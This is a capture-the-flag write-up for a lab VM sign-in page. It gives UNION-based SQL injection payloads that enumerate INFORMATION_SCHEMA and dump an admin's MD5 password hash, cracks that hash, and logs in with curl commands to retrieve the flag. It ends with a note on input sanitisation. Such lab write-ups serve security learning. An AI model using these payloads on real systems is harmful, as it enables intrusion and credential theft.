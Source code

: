 # SignIn Page

__http://192.168.56.101/index.php?page=signin__

## Description
This page show sign in form with username and password fields.

## Form Outputs

https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/ - main table information

1) 1 union select table_name, table_schema from iNFORMATION_SCHEMA.TABLES - see all schema names and their tables

2) 1 union select table_name, column_name from iNFORMATION_SCHEMA.columns - see all tables and their columns

3) find column username, password and see what tables in it

Member_Brute_Force.db_default

1 union select table_name, column_name from iNFORMATION_SCHEMA.columns where table_name = db_default

we get columns:

    id
    username
    password

Let's check users select username, password from Member_Brute_Force.db_default&Submit=Submit
```
ID: -1 union select username, password from Member_Brute_Force.db_default 
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```


### Flag
3bf1114a986ba87ed28fc1b5884fc2f8 --MD5-> shadow
```
curl -s 'http://192.168.56.101/index.php?page=signin&username=admin&password=dummy&Login=Login' -o dummy.html
curl -s 'http://192.168.56.101/index.php?page=signin&username=admin&password=shadow&Login=Login' -o admin.html
diff admin.html dummy.html 
```
Inside the diff output html we get the flag

## Safety
Through this exercise, the importance of secure coding practices, input validation, and access control is highlighted. It emphasizes the need to sanitize user input and use proper authentication mechanisms to prevent SQL injection attacks.